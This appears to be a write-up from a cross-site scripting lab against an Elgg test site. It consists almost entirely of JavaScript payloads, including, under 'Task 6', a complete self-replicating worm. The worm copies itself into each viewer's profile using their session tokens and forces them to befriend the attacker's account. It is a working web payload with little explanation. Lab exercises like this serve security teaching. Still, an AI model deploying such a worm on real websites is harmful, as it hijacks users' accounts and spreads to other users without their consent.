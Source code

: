 ```
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>

```


### Task 6:
```
<script type="text/javascript" id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  var desc = "&description=Samy is my hero" + wormCode;
  desc    += "&accesslevel[description]=2";                       


  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts    = "&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token = "&__elgg_token="+elgg.security.token.__elgg_token;


  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;

  samyGuid = 59;
  if (elgg.session.user.guid != samyGuid){

    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl,true);
    Ajax.setRequestHeader("Content-Type",
                          "application/x-www-form-urlencoded");
    Ajax.send(content);

    sendurl = "http://www.xsslabelgg.com/action/friends/add" + "?friend=59" + token + ts;
    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type",
                          "application/x-www-form-urlencoded");
    Ajax.send();

  }
}
```
